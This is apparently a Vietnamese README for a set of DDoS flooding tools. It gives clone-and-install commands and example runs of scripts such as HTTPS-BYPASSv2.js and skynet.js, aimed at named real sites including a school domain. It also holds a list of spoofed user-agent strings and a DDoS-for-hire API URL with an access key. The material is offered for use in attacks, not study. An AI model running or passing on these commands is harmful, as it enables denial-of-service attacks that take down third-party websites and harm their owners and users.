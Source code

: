 Lệnh SETUP & RUN

git clone https://github.com/phantrungtruc/jukiee.git

cd jukiee

npm i fake-useragent

VÍ DỤ :

node HTTPS-BYPASSv2.js http://thptcangiuoc.edu.vn/ 60 6 sss.txt

node skynet.js https://chinese.com.vn/ 60 50 6 sss.txt

node HTTP-DOWN.js url 60 10 6 sss.txt

Mozilla/5.0 (Android; Linux armv7l; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 Fennec/10.0.1Mozilla/5.0 (Android; Linux armv7l; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 Fennec/10.0.1

Mozilla/5.0 (Android; Linux armv7l; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 Fennec/10.0.1Mozilla/5.0 (Android; Linux armv7l; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 Fennec/10.0.1 Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Mozilla/5.0 (Macintosh; Intel Mac OS X 11_2_3) AppleWebKit/537.36 (KHTML, like Gecko) Version/14.0.3 Safari/537.36 Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

https://thanhdieu.com/API/api-ddos.php?key=thanhdieu_xjEin&port=[port]&time=[time]&method=[method]&host=[host]
